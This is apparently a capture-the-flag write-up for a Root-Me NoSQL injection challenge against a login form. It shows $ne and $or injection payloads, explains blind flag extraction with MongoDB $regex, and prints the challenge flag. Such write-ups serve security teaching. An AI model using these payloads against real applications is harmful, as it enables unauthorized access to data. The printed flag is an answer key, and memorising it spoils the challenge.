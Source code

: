 # NoSQL injection - Authentication

**Point**: 35 Points

**Title**: Find me

**Description**: Find the username of the hidden user.

## Analysis (This just for newbie):

We again have a form that needs to be bypassed.

<p align="center"><img src="images/loginform.png"></p>

Skip some challenge's names, I should have a quick test with simple payload:

```
?chall_name[$ne]=1&flag[$ne]=1
```

<p align="center"><img src="images/filter.png"></p>

"Associative array" techniques may not work.

Now, focus on the obvious condition that we know the correct "challenges", 1 field in this form. So with this data, I straightforwardly think of constructing a payload that use "OR" operator  to bypass as normal-case SQL Injection. I learn that from the [provided document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*zh58dy*_ga*MTU3NDQyNTQwNy4xNjYyMTI2NjEx*_ga_SRYSKX09J7*MTY2MjEzMjQxNC4xMi4wLjE2NjIxMzI0MjYuMC4wLjA.). Payload:

```
chall_name=bluebox", $or: [ {}, { "1":"1&flag=" } ], $comment:"successful MongoDB injection"
```

MongoDB execute the query look like this:

```mongodb
db.chall.find({"chall_name": "injection1", "flag": "injection2")
```

After we inject malicious command:

```mongodb
db.chall.find({"chall_name": "bluebox", $or: [ {}, { "1":"1", "flag": "" } ], $comment:"Hacked by khangtictoc"")
```

This is equivalent to `SELECT * FROM chall WHERE chall_name="bluebox" OR (True AND ("1"="1" AND flag="")) // Hacked by khangtictoc`. We must know a specific `chall_name` to conduct attack, this was given with "bluebox, zeusbot, nosqlblind" for us to test.

But, unfortunately:

<p align="center"><img width=400 height=180 src="images/wrong.png"></p>

Whoops! Maybe the backend handles this too. 

So we really lost our track? It takes much time to test more and I surprisingly notice that there is a vulnerability in `flag` box. They do not apply filter on this compared to `chall_name` one. Now things are done, combining with the title "Blind SQL" and our goal is to check the correct flag.

To achieve the goal, I write a **Python** code and use `$regex` to make a comparison with actual flag's pattern. I check printable characters except some special cases and loop on each flag's position. I let my code [here](solve.py)

## Solution:

Run `solve.py` *(Make sure to use a VPN or fixed IPv6 address).* The code content I have explained clearly with comments.

<p align="center"><img src="images/result.png"></p>

A little hard-working. Right?

## More Explanations:

> Note: This only for deeper understanding

`$regex` is the most best-fit way I could come up with. Besides, there are some special chars that we should avoid when comparing like ['*' , '+', '.', '?', '|', '&', '$']. This will make the regex pattern work as the way we do not want or predict.

> Note: Regex in MongoDB acts a little different when compared to others.

Try some examples with `mongosh` (MongoShell):

`Wrong match case with first correct characters or strings`. The case includes ['*' , '+', '.', '?', '|']

```shell
test> use test
already on db test
test> db.test.insertOne({"flag": "3iteasytomisunderstanding"})
{
  acknowledged: true,
  insertedId: ObjectId("63121aef6fe86849cca910f6")
}
test> db.test.find({"flag": {$regex: "^3*"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3+"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3."}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3?"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3|"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
```

`Wrong match case when ending the searching`. The case includes ['&'], this shows the mark of ending the pattern, so it's still matched.

```shell
test> db.test.insertOne({"flag": "3@sY_n0_5q7_1nj3c710n"})
{
  acknowledged: true,
  insertedId: ObjectId("63122a536fe86849cca910f7")
}
test> db.test.find({"flag": {$regex: "^3@sY_n0_5q7_1nj3c710n$$$$$$$$$$$$$$$$$$$$"}})
[
  {
    _id: ObjectId("63122a536fe86849cca910f7"),
    flag: '3@sY_n0_5q7_1nj3c710n'
  }
]
```

Flag: **3@sY_n0_5q7_1nj3c710n**
